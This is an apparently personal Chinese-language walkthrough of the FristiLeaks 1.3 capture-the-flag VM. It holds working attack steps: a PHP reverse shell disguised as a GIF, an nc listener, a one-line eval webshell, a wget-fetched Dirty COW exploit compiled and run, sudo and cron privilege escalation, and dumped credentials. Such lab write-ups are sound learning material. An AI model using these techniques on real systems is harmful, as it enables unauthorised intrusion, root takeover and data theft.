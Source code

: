 该靶场需要设置固定的地址：
VMware 用户需要手动将 VM 的 MAC 地址编辑为：08:00:27:A5:A6:76   ---PD虚拟机也一样！

1、nmap -sP 10.211.55.0/24
Nmap scan report for 10.211.55.43   ---在设置好mac地址后项目上其实也显示了IP！

2、nmap全端口扫描
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
==就开启了80端口！==

开了防火墙外网不可以访问除了80以外的端口


3、nikto和dirb都扫描出了robots.txt

==在主页图片提示：keep calm and drink fristi

http://10.211.55.43/fristi
发现这是个登录页面！

查看源码发现：
1）用户名两个：TODO、eezeepz
==2）base64，进行解码：
cat base642.txt | base64 -d > 1
file 1   ---发现这是图片？
双击打开发现一串字符：keKkeKKeKKeKkEkkEk==
测试用账号密码登录成功：
eezeepz
keKkeKKeKKeKkEkkEk


4、文件上传
Sorry, is not a valid file. Only allowed are: png,jpg,gif 

说只能上传png,jpg,gif！

回顾项目八****
通过插入GIF89a十六​​进制标头并附加，WAF没有发现为恶意的php代码来创建一个gif文件。

在php-reverse-shell.php首行加入：GIF89a
mv php-reverse-shell.php php-reverse-shell.gif   ---然后改名为gif

Uploading, please wait
The file has been uploaded to /uploads 
上传完成后提示访问/uploads

发现访问http://10.211.55.43/fristi/uploads/php-reverse-shell.gif报错了。

测试改名为.php.jpg
mv php-reverse-shell.gif dayu.php.jpg

重新获得反弹shell：
nc -vlp 1234
http://10.211.55.43/fristi/uploads/dayu.php.jpg


5、内网信息枚举

在/home/eezeepz目录下发现：notes.txt文件 ==用户目录枚举

意思是说如果正在运行脚本，则该脚本将在/tmp目录中以admin身份执行任何命令（如果位于runthis的文件中），所以只需要执行一个命令，使用/tmp/runthis文件技巧就可以访问/admin/文件（还有每个文件一分钟后才生效…)
尝试的发出chmod，通过回chmod 777 /home/admin至/tmp/runthis，等了大约一分钟后…

6、赋权信息枚举

echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis   ---对apache赋权admin用户权限
ls -l /home/admin
cat /home/admin/cryptedpass.txt  发现信息：mVGZ3O3omkJLmy2pcuTq
cat /home/admin/whoisyourgodnow.txt  发现信息：=RFn0AKnlMHMPIzpyuTI0ITG

cat /home/admin/cryptpass.py

-----
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
-----  发现一个解密base64的脚本！

python
import base64,codecs,sys         ---使用python导入base64,codecs,sys模块module！
rot13Str = "mVGZ3O3omkJLmy2pcuTq"
base64Str = codecs.decode(rot13Str[::-1], 'rot13')  --用codecs编码转换[::-1]，decode编码转换rot13
clearTextStr = base64.b64decode(base64Str)    ---base64Str进行decode进行base64解码
print (clearTextStr)          ---打印出clearTextStr

----------
python2
import base64,codecs,sys
rot13Str = "=RFn0AKnlMHMPIzpyuTI0ITG"
base64Str = codecs.decode(rot13Str[::-1], 'rot13')
clearTextStr = base64.b64decode(base64Str)
print (clearTextStr)

----------
thisisalsopw123
LetThereBeFristi!
获得了两个密码！尝试admin登录！

su admin
thisisalsopw123
成功登录！

sudo -l  提示：Sorry, user admin may not run sudo on 16-FristiLeaks_1.

在登录：fristigod
LetThereBeFristi!

sudo -l 提示：(fristi : ALL) /var/fristigod/.secret_admin_stuff/

直接将用户sudo用做fristi来访问/var/fristigod/.secret_admin_stuff/doCom：

grep -rn “/var/fristigod/.secret_admin_stuff/doCom”
sudo /var/fristigod/.secret_admin_stuff/doCom su -
Sorry, user fristigod is not allowed to execute '/var/fristigod/.secret_admin_stuff/doCom su -' as root on 16-FristiLeaks_1.3.
翻译：不允许用户fristigod以root权限运行！

在查看/var/fristigod目录下的cat .bash_history发现了历史命令：

sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom su - ==sudo -u 
获得root权限！

或者将/bin/bash附加到doCom也行：
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
获得root权限！
x

------------------------------------
在/var/www/html目录下搜索到mysql密码信息：
grep -rn password 
fristi/checklogin.php:6:$password="4ll3maal12#"; // Mysql password

mysql -ueezeepz -p4ll3maal12#
+----+----------+--------------------+
| id | username | password           |
+----+----------+--------------------+
|  1 | eezeepz  | keKkeKKeKKeKkEkkEk |
+----+----------+--------------------+

------------------------------------
拓展小技巧：
1）webshell小技巧
https://github.com/melbinkm/PHPImageShell
直接上传该php的shell，可以运行command命令框！


2）脏牛提权
wget http://10.211.55.19:8081/40839.c
gcc -pthread 40839.c -o dayu -lcrypt
chmod +x dayu
./dayu dayu
执行完提示将firefart密码修改为dayu为root权限！
su firefart
dayu
然后就获得root权限了！


3）download源码

创建文件：1.php.jpg
GIF98
<?php eval($_REQUEST[1]);?>

cp /var/www/html/fristi/uploads

tar -zcvf web.tar.gz /var/www/html/*

cp web.tar.gz /var/www/html/fristi/uploads
这时候就可以download源码下来了！丢到seay里面去审计！




# mynew
开了防火墙 ：
可能设置了外网不可以访问内网的服务

base64 + file 判断类型 图片有时候可以看到明文
文件头

python 加密解密
sudo -u 
seay自动审计工具
